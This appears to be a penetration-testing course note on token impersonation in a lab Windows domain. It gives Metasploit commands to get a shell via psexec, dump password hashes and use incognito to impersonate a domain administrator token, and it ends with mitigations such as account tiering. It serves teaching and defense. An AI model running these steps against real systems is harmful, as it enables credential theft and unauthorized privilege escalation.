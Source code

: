 3. Token Impersonation Attacks

What are **tokens**?
- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. (like cookies for computers)

Two types:
- Delegate
	- Created for logging into a machine or using Remote Desktop
- Impersonate 
	- non-interactive" such as attaching a network drive or a domain logon script

***
We will use the incognito module on Metasploit. Step by step:
```
sudo msfconsole
```

```
msf> use exploit/windows/smb/psexec
```

![412c6afc7d4da7e5a7752e1a9de26352.png](../../_resources/90105a15c4a24eb28578d0e62c2e36ed.png)

Things we can run once we get the session

```
meterpreter> hashdump
meterpreter> getuid
meterpreter> sysinfo
```

![64c1af6c0b7ddec3cdff2917baff246f.png](../../_resources/ef387f845efe44e4a84b853a796f794c.png)

Can now load tools. 
We will load incognito
```
meterpreter> load incognito
meterpreter> help
```

![5350807c1c83ee5a088aa6715dec1619.png](../../_resources/04242d7b3b9f488ea4f4d6cfff177795.png)

We will try to impersonate a user
```
meterpreter> list_tokens -u
```
![4417e4d9227d0f51b6d1d221ef714fb9.png](../../_resources/269a114dfa4b495e868691be77bcc2dd.png)

Heath had MARVEL\Administrator available as a token (we had fcastle and could impersonate him):
```
meterpreter> impersonate_token marvel\\administrator
```
> we use two '\\' due to character escaping

Only who is logged in will show up. 
We can impersonate this user until the computer is rebooted

If we are cannot run system commands, can revert back to our identity:

```
meterpreter> rev2self
```
![ddf6c3e5dddd6733461de6aed1d3c33c.png](../../_resources/5458acfe8ea14b77b5a0cc739893cb55.png)

## Token Impersonation Mitigation

- Limit user/group token creation permission (not as effective)
- Much better> Account tiering
	- Domain admins should only log into DC's not other devices, as doing so we can still token impersonation attacks with admin details
- Local admin restriction
	- If users are not local admins on their computers that prevents us from getting shell on their computer and utilising this kind of attack 


